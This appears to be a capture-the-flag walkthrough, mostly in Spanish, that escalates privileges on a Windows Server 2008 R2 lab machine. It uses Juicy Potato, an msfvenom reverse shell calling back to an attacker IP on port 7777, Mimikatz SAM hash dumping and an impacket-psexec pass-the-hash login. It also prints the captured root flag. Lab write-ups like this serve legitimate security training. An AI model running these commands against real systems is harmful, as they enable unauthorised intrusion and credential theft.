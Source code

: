 Desde la web de *Juicy-Potato* tengo un enlace para averiguar el **CLSID** según el sistema operativo, https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
En este caso, para windows server 2008 R2

Me he creado un programa para que compruebe con juicypotato y la opción -z compruebe los CLSIDs correctos. El resultado ha sido:

![cmd-dir|550](/imgs/009-w-5.png)

Lógicamente me interesan los `NT AUTHORITY\SYSTEM` pruebo con el primero:

```zsh
{659cdea7-489e-11d9-a9cd-000d56965251}
```

Me creo otra RShell que escuche en otro puerto `7777`  por ejemplo:

```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.141 LPORT=7777 -f exe --encoder x64/xor_dynamic --out toxic2.exe
```

Y la subo a la máquina.

La invocación con todos los parámetros y utilizando esa RShell sería:

```zsh
juicypotato.exe -l 10000 -p toxic2.exe -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}
```

**Nota:** No olvides poner en tu máquina de ataque un netcat escuchando en el puerto `7777`

Me da acceso de root

```zsh
C:\Windows\system32>whoami
whoami
nt authority\system
```

Y ya puedo capturar la bandera:

```console
C:\Users\Administrator\Desktop>type root.txt
type root.txt
5b38df6802c305e752c8f02358721acc
```



### Post Exploitation

We have already gained shell access as NT SYSTEM. Why not steal the Administrator hash and perform a Pass-The-Hash attack? Let’s do this using Mimikatz. - https://github.com/gentilkiwi/mimikatz

Run this command:

```zsh
mimikatz.exe privilege::debug token::elevate lsadump::sam exit
```

And then, we can access the target using impacket-psexec and the Administrator NTLM hashes.

```zsh
impacket-psexec Administrator@**target-ip** -hashes :**hash_here**
```
